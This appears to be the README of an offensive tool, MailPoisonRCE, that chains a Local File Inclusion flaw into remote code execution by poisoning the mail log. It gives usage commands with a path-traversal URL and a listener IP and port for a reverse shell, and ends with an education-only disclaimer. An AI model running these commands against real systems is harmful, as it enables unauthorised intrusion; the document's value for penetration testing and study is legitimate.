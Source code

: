 # MailPoisonRCE

## Mail Poison Remote Code Execution

This tool is for Local File Inclusion to Remote Code Execution via mail log poisoning

### Installation

Run the command below to install the required libraries used in the tool.
* pip3
  ```sh
  pip3 install -r requirements.txt
  ```
  
### Usage

  ```sh
Authenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test -us user -pw root

Unauthenticated usage: python3 MailPoisonRCE.py -s 10.11.12.13 -sp 25 -e from@test.com -t test@rcpnt.com -i 127.0.0.1 -p 4444 -u http://10.11.12.13/index.php?page=../../../var/mail/test
  ```

![alt text](https://github.com/Pilum-Murialis/tools/blob/main/MailPoisonRCE/poc.PNG?raw=true)


# Disclaimer
```sh
The tool is for education purpose only. Usage of the tool for attacking the website without consent is illegal. 
The end user of the tool will be responsible for the damage it might cause.
The developer of the tool assume no liability and not responsbile for any misuse and damage.
```

## Authors

[damaidec](https://medium.com/@damaidec)

[anantha](https://github.com/Ananthavijay)


